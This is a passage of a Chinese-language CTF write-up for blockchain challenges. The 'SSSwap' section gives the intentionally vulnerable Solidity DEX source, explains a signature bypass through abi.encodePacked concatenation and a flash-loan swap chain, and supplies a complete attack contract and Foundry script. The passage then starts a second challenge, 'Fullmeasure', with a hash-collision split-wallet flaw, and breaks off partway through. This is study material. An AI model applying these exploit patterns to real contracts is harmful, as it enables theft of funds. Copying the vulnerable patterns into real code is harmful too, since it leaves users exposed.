


# 2026DLNUCFG wp

# SSSwap

## 源码

```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8.9;

import {SimpleDEX} from "./DEX.sol";
import {IToken} from "./IToken.sol";

//rpc 154.92.16.51:20001
contract Setup {
    SimpleDEX public dex;
    address public profitReceiver = 0x0000000000000000000000000000000000114514;
    IToken public USDT;
    IToken public DLNU;
    IToken public RWEB;

    constructor(string memory data) {
        dex = new SimpleDEX(bytes(data));//实例

        USDT = new IToken("Tether USD", "USDT", address(this));
        DLNU = new IToken("VN Coin", "DLNU", address(this));
        RWEB = new IToken("WM Coin", "RWEB", address(this));

        //approve
        USDT.approve(address(dex), type(uint256).max);
        DLNU.approve(address(dex), type(uint256).max);
        RWEB.approve(address(dex), type(uint256).max);

        //create pool, addliquidity
        dex.createLiquidityPool(address(USDT), address(DLNU));//0 USDT-DLNU
        dex.addLiquidity(0, 10000 ether, 100_000 ether);//1:10

        dex.createLiquidityPool(address(DLNU), address(RWEB));//1 DLNU-RWEB
        dex.addLiquidity(1, 100_000 ether, 100_000 ether);//1:1

        dex.createLiquidityPool(address(USDT), address(RWEB));//2 USDT-RWEB
        dex.addLiquidity(2, 10_000 ether, 10_000 ether);//1:1


        //USDT 
        uint256 restUSDT = USDT.balanceOf(address(this));//
        USDT.approve(address(dex), restUSDT);
        dex.addLoan(restUSDT, address(USDT));//transferfrom(msg.sender,address(this),amount)

        //DLNU
        uint256 restDLNU = DLNU.balanceOf(address(this));//balance
        DLNU.approve(address(dex), restDLNU);
        dex.addLoan(restDLNU, address(DLNU));//transferfrom(msg.sender,address(this),amount)

        //RWEB
        uint256 restRWEB = RWEB.balanceOf(address(this));//balance
        RWEB.approve(address(dex), restRWEB);
        dex.addLoan(restRWEB, address(RWEB));//transferfrom(msg.sender,address(this),amount)
    }

    function isSolved() external view returns (bool) {
        return USDT.balanceOf(profitReceiver) >= 1000 ether;//swap 1000 ether 以上的USDT转给0x0000000000000000000000000000000000114514
    }
}


```

```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8.9;

import "./lib/ReentrancyGuard.sol";
import "./IToken.sol";

contract SimpleDEX is ReentrancyGuard {
    struct AMM {
        IToken token0;
        IToken token1;
        uint256 reserve0;
        uint256 reserve1;
        mapping(address => uint256) lpBalances0;
        mapping(address => uint256) lpBalances1;
    }
    bytes public signature;//0x52574542
    bool public swapAllowed;//1
    AMM[] public amms;
    mapping(bytes32 => bool) public usedHash;

    event FlashLoan(address indexed borrower, uint256 amount);

    modifier validSignature(bytes memory data1, bytes memory data2) {
        bytes32 hash = keccak256(abi.encode(data1, data2));//根据data1和data2现生成hash
        require(
            keccak256(signature) == keccak256(abi.encodePacked(data1, data2)),//encodePacked，拼接
            "Invalid signature"
        );
        require(!usedHash[hash], "Already used");//假限制
        usedHash[hash] = true;
        _;
    }

    constructor(bytes memory data) {
        signature = data;
        swapAllowed = false;
    }
    function checkSignature(bytes memory input) public {
        if (keccak256(input) == keccak256(signature)) {//pulic可读
            swapAllowed = true;
        } else {
            swapAllowed = false;
        }
    }

    function addAMM(address _token0, address _token1) external {
        require(_token0 != _token1, "Tokens must be different");

        amms.push();
        uint256 index = amms.length - 1;
        AMM storage amm = amms[index];

        amm.token0 = IToken(_token0);
        amm.token1 = IToken(_token1);
        amm.reserve0 = 0;
        amm.reserve1 = 0;
    }

    function createLiquidityPool(address _token0, address _token1) external {
        require(_token0 != _token1, "Tokens must be different");

        amms.push();
        uint256 index = amms.length - 1;
        AMM storage amm = amms[index];

        amm.token0 = IToken(_token0);
        amm.token1 = IToken(_token1);
        amm.reserve0 = 0;
        amm.reserve1 = 0;
    }

    function addLiquidity(
        uint256 ammIndex,
        uint256 amount0,
        uint256 amount1
    ) external {
        AMM storage amm = amms[ammIndex];
        require(
            amm.token0.transferFrom(msg.sender, address(this), amount0),
            "Transfer of token0 failed"
        );
        require(
            amm.token1.transferFrom(msg.sender, address(this), amount1),
            "Transfer of token1 failed"
        );

        amm.reserve0 += amount0;//reserve0 更新
        amm.reserve1 += amount1;//reserve1 更新
        amm.lpBalances0[msg.sender] += amount0;
        amm.lpBalances1[msg.sender] += amount1;
    }

    function removeLiquidity(uint256 ammIndex, uint256 lpAmount) external {
        AMM storage amm = amms[ammIndex];
        uint256 amount0 = (lpAmount * amm.lpBalances0[msg.sender]) / 100;
        uint256 amount1 = (lpAmount * amm.lpBalances1[msg.sender]) / 100;
        require(
            amm.token0.transfer(msg.sender, amount0),
            "Transfer of token0 failed"
        );
        require(
            amm.token1.transfer(msg.sender, amount1),
            "Transfer of token1 failed"
        );

        amm.reserve0 -= amount0;
        amm.reserve1 -= amount1;
        amm.lpBalances0[msg.sender] -= amount0;
        amm.lpBalances1[msg.sender] -= amount1;
    }

    function getPrice(uint256 ammIndex) external view returns (uint256) {
        AMM storage amm = amms[ammIndex];

        require(amm.reserve1 > 0, "Insufficient liquidity");
        return amm.reserve0 / amm.reserve1;
    }

    //核心swap
    function swap(
        uint256 ammIndex,//池子
        uint256 amountIn,
        uint256 amountIn1,//?
        bool isToken0,
        bytes memory data1,
        bytes memory data2
    ) external validSignature(data1, data2) {//核心swap
        AMM storage amm = amms[ammIndex];

        uint256 reserveIn = isToken0 ? amm.reserve0 : amm.reserve1;//想用谁换谁,顺序不变就true
        uint256 reserveOut = isToken0 ? amm.reserve1 : amm.reserve0;//顺序变就flase
        require(swapAllowed, "Swap not allowed");//checkSignature()
        require(
            amountIn1 == getExpectMaxSwapWithPriceImpact(ammIndex, isToken0),//检查amountIn1
            "The amount is not the maximum expected amount."
        );
        uint256 amountOut = getAmountOut(amountIn, reserveIn, reserveOut);//实际用amountIn

        if (isToken0) {
            require(
                amm.token0.transferFrom(msg.sender, address(this), amountIn),
                "Transfer of token0 failed"
            );
            require(
                amm.token1.transfer(msg.sender, amountOut),
                "Transfer of token1 failed"
            );
            amm.reserve0 += amountIn;
            amm.reserve1 -= amountOut;
        } else {
            require(
                amm.token1.transferFrom(msg.sender, address(this), amountIn),
                "Transfer of token1 failed"
            );
            require(
                amm.token0.transfer(msg.sender, amountOut),
                "Transfer of token0 failed"
            );
            amm.reserve1 += amountIn;
            amm.reserve0 -= amountOut;
        }
    }

    function addLoan(uint256 amount, address token) external {
        require(
            IToken(token).transferFrom(msg.sender, address(this), amount),
            "Transfer of tokens failed"
        );
    }

    //闪电贷
    function flashLoan(uint256 amount, address token) external nonReentrant {
        emit FlashLoan(msg.sender, amount);
        require(
            IToken(token).balanceOf(address(this)) >= amount,
            "Not enough tokens in pool"
        );

        IToken(token).transfer(msg.sender, amount);
        (bool success, ) = msg.sender.call(
            abi.encodeWithSignature(
                "executeOperation(uint256,address)",
                amount,
                token
            )
        );
        require(success, "Callback failed");

        require(
            IToken(token).transferFrom(msg.sender, address(this), amount),
            "Transfer of tokens failed"
        );

        emit FlashLoan(msg.sender, amount);
    }

    function getAmountOut(
        uint256 amountIn,
        uint256 reserveIn,
        uint256 reserveOut
    ) internal pure returns (uint256) {
        require(amountIn > 0, "Insufficient input amount");
        require(reserveIn > 0 && reserveOut > 0, "Insufficient liquidity");
        uint256 amountInWithFee = amountIn * 1000;
        uint256 numerator = amountInWithFee * reserveOut;
        uint256 denominator = reserveIn * 1000 + amountInWithFee;
        return numerator / denominator;
    }

    function getExpectMaxSwapWithPriceImpact(
        uint256 ammIndex,
        bool isToken0
    ) private view returns (uint256 maxAmountIn) {
        AMM storage amm = amms[ammIndex];

        uint256 reserveIn = isToken0 ? amm.reserve0 : amm.reserve1;
        uint256 reserveOut = isToken0 ? amm.reserve1 : amm.reserve0;

        require(reserveIn > 0 && reserveOut > 0, "No liquidity");

        uint256 multiplier = 1026;
        uint256 newReserveInMax = (reserveIn * multiplier) / 1000;//就是reserveIn/1.026 

        if (newReserveInMax <= reserveIn) return 0;

        maxAmountIn = newReserveInMax - reserveIn;//reserveIn*0.026
    }
}

```

```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8.9;

import "./lib/ERC20.sol";

contract IToken is ERC20 {
    constructor(
        string memory name,
        string memory symbol,
        address owner
    ) ERC20(name, symbol) {
        _mint(owner, 1e30);
    }
}
```

```solidity

//contracts/lib/ERC20.sol
// SPDX-License-Identifier: MIT
// OpenZeppelin Contracts (last updated v5.2.0) (token/ERC20/ERC20.sol)

pragma solidity 0.8.9;

/**
 * @dev Interface of the ERC-20 standard as defined in the ERC.
 */
interface IERC20 {
    /**
     * @dev Emitted when `value` tokens are moved from one account (`from`) to
     * another (`to`).
     *
     * Note that `value` may be zero.
     */
    event Transfer(address indexed from, address indexed to, uint256 value);

    /**
     * @dev Emitted when the allowance of a `spender` for an `owner` is set by
     * a call to {approve}. `value` is the new allowance.
     */
    event Approval(
        address indexed owner,
        address indexed spender,
        uint256 value
    );

    /**
     * @dev Returns the value of tokens in existence.
     */
    function totalSupply() external view returns (uint256);

    /**
     * @dev Returns the value of tokens owned by `account`.
     */
    function balanceOf(address account) external view returns (uint256);

    /**
     * @dev Moves a `value` amount of tokens from the caller's account to `to`.
     *
     * Returns a boolean value indicating whether the operation succeeded.
     *
     * Emits a {Transfer} event.
     */
    function transfer(address to, uint256 value) external returns (bool);

    /**
     * @dev Returns the remaining number of tokens that `spender` will be
     * allowed to spend on behalf of `owner` through {transferFrom}. This is
     * zero by default.
     *
     * This value changes when {approve} or {transferFrom} are called.
     */
    function allowance(
        address owner,
        address spender
    ) external view returns (uint256);

    /**
     * @dev Sets a `value` amount of tokens as the allowance of `spender` over the
     * caller's tokens.
     *
     * Returns a boolean value indicating whether the operation succeeded.
     *
     * IMPORTANT: Beware that changing an allowance with this method brings the risk
     * that someone may use both the old and the new allowance by unfortunate
     * transaction ordering. One possible solution to mitigate this race
     * condition is to first reduce the spender's allowance to 0 and set the
     * desired value afterwards:
     * https://github.com/ethereum/EIPs/issues/20#issuecomment-263524729
     *
     * Emits an {Approval} event.
     */
    function approve(address spender, uint256 value) external returns (bool);

    /**
     * @dev Moves a `value` amount of tokens from `from` to `to` using the
     * allowance mechanism. `value` is then deducted from the caller's
     * allowance.
     *
     * Returns a boolean value indicating whether the operation succeeded.
     *
     * Emits a {Transfer} event.
     */
    function transferFrom(
        address from,
        address to,
        uint256 value
    ) external returns (bool);
}

/**
 * @dev Interface for the optional metadata functions from the ERC-20 standard.
 */
contract ERC20 {
    string public name;
    string public symbol;
    uint8 public decimals = 18;
    uint256 public totalSupply;

    mapping(address => uint256) public balanceOf;
    mapping(address => mapping(address => uint256)) public allowance;

    event Transfer(address indexed from, address indexed to, uint256 value);
    event Approval(
        address indexed owner,
        address indexed spender,
        uint256 value
    );

    constructor(string memory _name, string memory _symbol) {
        name = _name;
        symbol = _symbol;
    }

    function _mint(address _to, uint256 _amount) internal {
        totalSupply += _amount;
        balanceOf[_to] += _amount;
        emit Transfer(address(0), _to, _amount);
    }

    function transfer(address _to, uint256 _amount) external returns (bool) {
        require(
            balanceOf[msg.sender] >= _amount,
            "ERC20: insufficient balance"
        );
        balanceOf[msg.sender] -= _amount;
        balanceOf[_to] += _amount;
        emit Transfer(msg.sender, _to, _amount);
        return true;
    }

    function approve(
        address _spender,
        uint256 _amount
    ) external returns (bool) {
        allowance[msg.sender][_spender] = _amount;
        emit Approval(msg.sender, _spender, _amount);
        return true;
    }

    function transferFrom(
        address _from,
        address _to,
        uint256 _amount
    ) external returns (bool) {
        require(balanceOf[_from] >= _amount, "ERC20: insufficient balance");
        require(
            allowance[_from][msg.sender] >= _amount,
            "ERC20: allowance exceeded"
        );

        balanceOf[_from] -= _amount;
        balanceOf[_to] += _amount;
        allowance[_from][msg.sender] -= _amount;

        emit Transfer(_from, _to, _amount);
        return true;
    }
}
```

```solidity

//contracts/lib/ReentrancyGuard.sol
// SPDX-License-Identifier: MIT
// OpenZeppelin Contracts (last updated v5.1.0) (utils/ReentrancyGuard.sol)
pragma solidity 0.8.9;

/**
 * @dev Contract module that helps prevent reentrant calls to a function.
 *
 * Inheriting from `ReentrancyGuard` will make the {nonReentrant} modifier
 * available, which can be applied to functions to make sure there are no nested
 * (reentrant) calls to them.
 *
 * Note that because there is a single `nonReentrant` guard, functions marked as
 * `nonReentrant` may not call one another. This can be worked around by making
 * those functions `private`, and then adding `external` `nonReentrant` entry
 * points to them.
 *
 * TIP: If EIP-1153 (transient storage) is available on the chain you're deploying at,
 * consider using {ReentrancyGuardTransient} instead.
 *
 * TIP: If you would like to learn more about reentrancy and alternative ways
 * to protect against it, check out our blog post
 * https://blog.openzeppelin.com/reentrancy-after-istanbul/[Reentrancy After Istanbul].
 */
abstract contract ReentrancyGuard {
    // Booleans are more expensive than uint256 or any type that takes up a full
    // word because each write operation emits an extra SLOAD to first read the
    // slot's contents, replace the bits taken up by the boolean, and then write
    // back. This is the compiler's defense against contract upgrades and
    // pointer aliasing, and it cannot be disabled.

    // The values being non-zero value makes deployment a bit more expensive,
    // but in exchange the refund on every call to nonReentrant will be lower in
    // amount. Since refunds are capped to a percentage of the total
    // transaction's gas, it is best to keep them low in cases like this one, to
    // increase the likelihood of the full refund coming into effect.
    uint256 private constant NOT_ENTERED = 1;
    uint256 private constant ENTERED = 2;

    uint256 private _status;

    /**
     * @dev Unauthorized reentrant call.
     */
    error ReentrancyGuardReentrantCall();

    constructor() {
        _status = NOT_ENTERED;
    }

    /**
     * @dev Prevents a contract from calling itself, directly or indirectly.
     * Calling a `nonReentrant` function from another `nonReentrant`
     * function is not supported. It is possible to prevent this from happening
     * by making the `nonReentrant` function external, and making it call a
     * `private` function that does the actual work.
     */
    modifier nonReentrant() {
        _nonReentrantBefore();
        _;
        _nonReentrantAfter();
    }

    function _nonReentrantBefore() private {
        // On the first call to nonReentrant, _status will be NOT_ENTERED
        if (_status == ENTERED) {
            revert ReentrancyGuardReentrantCall();
        }

        // Any calls to nonReentrant after this point will fail
        _status = ENTERED;
    }

    function _nonReentrantAfter() private {
        // By storing the original value once again, a refund is triggered (see
        // https://eips.ethereum.org/EIPS/eip-2200)
        _status = NOT_ENTERED;
    }

    /**
     * @dev Returns true if the reentrancy guard is currently set to "entered", which indicates there is a
     * `nonReentrant` function in the call stack.
     */
    function _reentrancyGuardEntered() internal view returns (bool) {
        return _status == ENTERED;
    }
}
```

## 思路

首先看`issolved()`

```solidity
USDT.balanceOf(profitReceiver) >= 1000 ether;
//swap 1000 ether 以上的USDT转给0x0000000000000000000000000000000000114514
```

然后看setup初始都干了些什么

1. 创建USDT,DLNU,RWEB三种token,并approve授权给dex合约
2. create两两token之间的交易池,并添加初始流动性,这个时候我注意到比例的问题



显然我们可以通过这种倍率的bug来让我们投入的USDT翻倍

<font style="background-color:#FBDFEF;">USDT - DLNU - RWEB - USDT</font>，这就是我的整体通关思路

```solidity
  //create pool, addliquidity
        dex.createLiquidityPool(address(USDT), address(DLNU));//0 USDT-DLNU
        dex.addLiquidity(0, 10000 ether, 100_000 ether);//1:10

        dex.createLiquidityPool(address(DLNU), address(RWEB));//1 DLNU-RWEB
        dex.addLiquidity(1, 100_000 ether, 100_000 ether);//1:1

        dex.createLiquidityPool(address(USDT), address(RWEB));//2 USDT-RWEB
        dex.addLiquidity(2, 10_000 ether, 10_000 ether);//1:1
```

但是我们初始又是没有任何token的，继续看dex合约，发现可以<font style="background-color:#FBDFEF;">闪电贷</font>`flashLoan()`，并且dex池子里初始已经注入了充足的token供我们去贷

```solidity
       //USDT 
        uint256 restUSDT = USDT.balanceOf(address(this));//balance
        USDT.approve(address(dex), restUSDT);
        dex.addLoan(restUSDT, address(USDT));//transferfrom(msg.sender,address(this),amount)

        //DLNU
        uint256 restDLNU = DLNU.balanceOf(address(this));//balance
        DLNU.approve(address(dex), restDLNU);
        dex.addLoan(restDLNU, address(DLNU));//transferfrom(msg.sender,address(this),amount)

        //RWEB
        uint256 restRWEB = RWEB.balanceOf(address(this));//balance
        RWEB.approve(address(dex), restRWEB);
        dex.addLoan(restRWEB, address(RWEB));//transferfrom(msg.sender,address(this),amount)
    }
```

```solidity
//闪电贷
    function flashLoan(uint256 amount, address token) external nonReentrant {
        emit FlashLoan(msg.sender, amount);
        require(
            IToken(token).balanceOf(address(this)) >= amount,
            "Not enough tokens in pool"
        );//检查池子里token充足不

        IToken(token).transfer(msg.sender, amount);
        (bool success, ) = msg.sender.call(
            abi.encodeWithSignature(
                "executeOperation(uint256,address)",
                amount,
                token
            )
        );
        require(success, "Callback failed");

        require(
            IToken(token).transferFrom(msg.sender, address(this), amount),//借多少还多少，没有利息
            "Transfer of tokens failed"
        );

        emit FlashLoan(msg.sender, amount);
    }
```

这个闪电贷没有利息,借多少还多少,这个就解决了我们没有资金的问题,借一点,赚了还完之后剩下够1000 ether的USDT就可以了,那接下来我要开始构思swap环节了

```solidity
//核心swap
    function swap(
        uint256 ammIndex,//池子
        uint256 amountIn,
        uint256 amountIn1,//?
        bool isToken0,
        bytes memory data1,
        bytes memory data2
    ) external validSignature(data1, data2) {
        AMM storage amm = amms[ammIndex];

        uint256 reserveIn = isToken0 ? amm.reserve0 : amm.reserve1;//想用谁换谁,顺序不变就true
        uint256 reserveOut = isToken0 ? amm.reserve1 : amm.reserve0;//顺序变就flase
        require(swapAllowed, "Swap not allowed");//checkSignature()即可解决
        require(
            amountIn1 == getExpectMaxSwapWithPriceImpact(ammIndex, isToken0),//检查amountIn1
            "The amount is not the maximum expected amount."
        );
        uint256 amountOut = getAmountOut(amountIn, reserveIn, reserveOut);//实际用amountIn

        if (isToken0) {
            require(
                amm.token0.transferFrom(msg.sender, address(this), amountIn),
                "Transfer of token0 failed"
            );
            require(
                amm.token1.transfer(msg.sender, amountOut),
                "Transfer of token1 failed"
            );
            amm.reserve0 += amountIn;
            amm.reserve1 -= amountOut;
        } else {
            require(
                amm.token1.transferFrom(msg.sender, address(this), amountIn),
                "Transfer of token1 failed"
            );
            require(
                amm.token0.transfer(msg.sender, amountOut),
                "Transfer of token0 failed"
            );
            amm.reserve1 += amountIn;
            amm.reserve0 -= amountOut;
        }
    }
```

逻辑还是比较简单,我都标注在注释里了,但是标识符`validSignature`是个问题

```solidity
 modifier validSignature(bytes memory data1, bytes memory data2) {
        bytes32 hash = keccak256(abi.encode(data1, data2));//根据data1和data2现生成hash
        require(
            keccak256(signature) == keccak256(abi.encodePacked(data1, data2)),//encodePacked，拼接
            "Invalid signature"
        );
        require(!usedHash[hash], "Already used");//假限制
        usedHash[hash] = true;
        _;
    }
```

乍一看好像是只能用一次的限制,实际上再观察,会发现每次检查的hash是根据我们输入的data1和data2现生成的,并且检查方式还是`abi.encodePacked`拼接的,那我们只需读出signature的值,我们要swap三次,就构造三个不同组合,拼接出来都是signature就可以了

通过读槽,得到signature的值是`0x52574542`,即**RWEB**

我选择这样构造三个:

1. dex.signature(),""
2. "",dex.signature()
3. "RW","EB"

这样就可以供我们swap三次了

解决了这个标识符,还有`swap()`的参数问题,好解决的我都标注出来了

```solidity
uint256 reserveIn = isToken0 ? amm.reserve0 : amm.reserve1;//想用谁换谁,顺序不变就true
      uint256 reserveOut = isToken0 ? amm.reserve1 : amm.reserve0;//顺序变就flase
      require(swapAllowed, "Swap not allowed");//checkSignature()即可解决
      require(
          amountIn1 == getExpectMaxSwapWithPriceImpact(ammIndex, isToken0),//检查amountIn1
          "The amount is not the maximum expected amount."
      );
      uint256 amountOut = getAmountOut(amountIn, reserveIn, reserveOut);//实际用amountIn
```

重点是这个require检查这里,`getExpectMaxSwapWithPriceImpact(ammIndex, isToken0)`函数

```solidity
 function getExpectMaxSwapWithPriceImpact(
        uint256 ammIndex,
        bool isToken0
    ) private view returns (uint256 maxAmountIn) {
        AMM storage amm = amms[ammIndex];

        uint256 reserveIn = isToken0 ? amm.reserve0 : amm.reserve1;
        uint256 reserveOut = isToken0 ? amm.reserve1 : amm.reserve0;

        require(reserveIn > 0 && reserveOut > 0, "No liquidity");

        uint256 multiplier = 1026;
        uint256 newReserveInMax = (reserveIn * multiplier) / 1000;//就是reserveIn/1.026 

        if (newReserveInMax <= reserveIn) return 0;

        maxAmountIn = newReserveInMax - reserveIn;//reserveIn*0.026
    }
```

可以看到,他最后要一个池子的`maxAmountIn`,计算方式就是这个池子的<font style="background-color:#FBDFEF;">reserveIn\*0.026</font>

那就可以追溯到初始每个池子创建时投入的token数量,去分别\*0.026

* pool0: 10000\*0.0026=260 ether
* pool1: 1000000.0026=2600 ether
* pool2: 10000\*0.0026=260 ether

作为amountin1填入对应的swap()里就可以了,而我们实际swap的数量又是另一个参数amountin,为了稳妥一点,我选择是比这个`maxAmountIn`稍微少几ether,无伤大雅只要最后能剩1000 ether以上USDT就可以

最后别忘记给那个114514目标地址转USDT

## poc

```solidity
// SPDX-License-Identifier: SEE LICENSE IN LICENSE
pragma solidity 0.8.9;

import {SimpleDEX} from "./DEX.sol";
import {IToken} from "./IToken.sol";
import {Setup} from "./setup.sol";
import "./lib/ERC20.sol";
import "./lib/ReentrancyGuard.sol";


contract Attack{
    SimpleDEX dex;
    Setup setup;

    constructor(address addr){
        setup=Setup(addr);
        dex=SimpleDEX(setup.dex());
    } 

    function go() external{
        dex.checkSignature(dex.signature());
        setup.USDT().approve(address(dex), type(uint256).max);
        setup.DLNU().approve(address(dex), type(uint256).max);
        setup.RWEB().approve(address(dex), type(uint256).max);
        dex.flashLoan(260 ether,address(setup.USDT()));
        setup.USDT().transfer(0x0000000000000000000000000000000000114514,1000 ether);
        require(setup.USDT().balanceOf(0x0000000000000000000000000000000000114514) >= 1000 ether,"not enough balance");
        require(setup.isSolved(),"no!!!!");
    }

    function executeOperation(uint256,address) public {
        // bytes memory a=abi.encodePacked(abi.encode(0x5257));
        // bytes memory b=abi.encodePacked(abi.encode(0x4542));

        dex.swap(0,260 ether ,260 ether,true,dex.signature(),"");
        dex.swap(1,2500 ether ,2600 ether,true,"",dex.signature());
        dex.swap(2,2400 ether ,260 ether,false,"RW","EB");
    }
     
}

```

```solidity
// SPDX-License-Identifier: SEE LICENSE IN LICENSE
pragma solidity 0.8.9;

import {Attack} from "../src/1.sol";
import {Setup} from "../src/setup.sol";
import {Script} from "forge-std/Script.sol";

contract Attacksc is Script{
    Attack attack;
    //Setup setup;

    function run() external{
        
        vm.startBroadcast();
        attack=new Attack(0x48516466D5e5606F3CDf3F6927E1b5684A86d116);
        attack.go();
        vm.stopBroadcast();
    }
}

```

# Fullmeasure

## 源码

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity 0.8.9;

import "./need/IERC721.sol";
import "./Split.sol";

//0x335c9E0B2fA89002bDAA2214AA2292d739a64763
//v4.local.S4lKoFHtJnMIxaMNjvsOcFzKfbFNzkcubUxMsjmfS9FGsce3T7OoNZjUrCuaO_X_MrQ66YrTcq9JYt9avMNnNjWC554G4MWHZ1E1lp-Rf6dpopCDPFQJgcHj4mPZgK6Uoh2oNmchBrMJ1UuL_Dv4IHN-kO5a7QekcdmnulhYAJh_Gg.U2V0dXA
contract Setup {
    Split public  split;
    //0xA7A1AD9cdef804c64512272a1daba0b2B3683F45
   
    constructor( ) payable {
         split = new Split();

        address[] memory addrs = new address[](2);
        addrs[0] = address(0x000000000000000000000000000000000000dEaD);
        addrs[1] = address(0x000000000000000000000000000000000000bEEF);
        uint32[] memory percents = new uint32[](2);
        percents[0] = 5e5;
        percents[1] = 5e5;

        uint256 id = split.createSplit(addrs, percents, 0);

        Split.SplitData memory splitData = split.splitsById(id);
        splitData.wallet.deposit{value: 10 ether}();

      
    }
  

    function isSolved() external view returns (bool) {
        Split.SplitData memory splitData = split.splitsById(0);

        return address(split).balance == 0 && address(splitData.wallet).balance == 0;
    }
}

```

```solidity
// SPDX-License-Identifier: MIT 
pragma solidity 0.8.9;
import "./need/IERC20.sol";
import "./need/ERC721.sol";
import "./need/ClonesWithImmutableArgs.sol";
import "./SplitWallet.sol";


contract Split is ERC721("Split", "SPLIT") { // 可拆分钱包
    using ClonesWithImmutableArgs for address;

    struct SplitData {
        bytes32 hash;
        SplitWallet wallet;
    }

    SplitWallet private immutable IMPLEMENTATION = new SplitWallet();
    uint256 private immutable SCALE = 1e6;

    uint256 public nextId;

    mapping(uint256 => SplitData) private _splitsById;

    mapping(address => mapping(address => uint256)) public balances;

    modifier onlySplitOwner(uint256 splitId) {
        _onlySplitOwner(splitId);
        _;
    }

    function _onlySplitOwner(uint256 splitId) private view {
        require(msg.sender == ownerOf(splitId), "NOT_SPLIT_OWNER");
    }

    modifier validSplit(address[] memory accounts, uint32[] memory percents, uint32 relayerFee) {
        _validSplit(accounts, percents, relayerFee);
        _;
    }

    function _validSplit(address[] memory accounts, uint32[] memory percents, uint32 relayerFee) private pure {
        require(accounts.length == percents.length, "MISMATCH_LENGTH");//length相同

        uint256 sum;
        for (uint256 i = 0; i < accounts.length; i++) {
            sum += percents[i];
        }

        require(sum == SCALE, "INVALID_PERCENTAGES");//i到count总和==1e6

        require(relayerFee < SCALE / 10, "INVALID_RELAYER_FEE");//relayerFee< 1e6/10
    }

    function createSplit(address[] memory accounts, uint32[] memory percents, uint32 relayerFee)
        external
        returns (uint256)
    {
        return _createSplit(accounts, percents, relayerFee, msg.sender);
    }

    function createSplitFor(address[] memory accounts, uint32[] memory percents, uint32 relayerFee, address owner)
        external
        returns (uint256)
    {
        return _createSplit(accounts, percents, relayerFee, owner);
    }

    function _createSplit(address[] memory accounts, uint32[] memory percents, uint32 relayerFee, address owner)
        private
        validSplit(accounts, percents, relayerFee)
        returns (uint256)
    {
        uint256 tokenId = nextId++;

        address wallet = address(IMPLEMENTATION).clone(abi.encodePacked(address(this)));

        _splitsById[tokenId] =
            SplitData({hash: _hashSplit(accounts, percents, relayerFee), wallet: SplitWallet(payable(wallet))});

        _mint(owner, tokenId);

        return tokenId;
    }

    function updateSplit(uint256 splitId, address[] memory accounts, uint32[] memory percents, uint32 relayerFee)
        external
    {
        _updateSplit(splitId, accounts, percents, relayerFee);
    }

    function updateSplitAndDistribute(
        uint256 splitId,
        address[] memory accounts,
        uint32[] memory percents,
        uint32 relayerFee,
        IERC20 token
    ) external {
        _updateSplit(splitId, accounts, percents, relayerFee);
        _distribute(splitId, accounts, percents, relayerFee, token);
    }

    function distribute(
        uint256 splitId,
        address[] memory accounts,
        uint32[] memory percents,
        uint32 relayerFee,
        IERC20 token
    ) external {
        _distribute(splitId, accounts, percents, relayerFee, token);
    }

    function withdraw(IERC20[] calldata tokens, uint256[] calldata amounts) external { // 未对调用者进行检查
        for (uint256 i = 0; i < tokens.length; i++) {
            IERC20 token = tokens[i];
            uint256 amount = amounts[i];

            balances[msg.sender][address(token)] -= amount;

            if (address(token) == address(0x00)) {
                payable(msg.sender).transfer(amount);
            } else {
                token.transfer(msg.sender, amount);
            }
        }
    }

    function _updateSplit(uint256 splitId, address[] memory accounts, uint32[] memory percents, uint32 relayerFee)
        private
        onlySplitOwner(splitId)
        validSplit(accounts, percents, relayerFee)
    {
        _splitsById[splitId].hash = _hashSplit(accounts, percents, relayerFee);
    }

    function _distribute(
        uint256 splitId,
        address[] memory accounts,
        uint32[] memory percents,
        uint32 relayerFee,
        IERC20 token
    ) private {
        // 限制，对身份进行校验 -> _hashSplit使用的是abi.encodePacket (hash collision)
        // 没对数组长度进行校验，可以利用
        require(_splitsById[splitId].hash == _hashSplit(accounts, percents, relayerFee)); 

        SplitWallet wallet = _splitsById[splitId].wallet;
        uint256 storedWalletBalance = balances[address(wallet)][address(token)]; // 一般都为0
        uint256 externalWalletBalance = wallet.balanceOf(token); // 关注

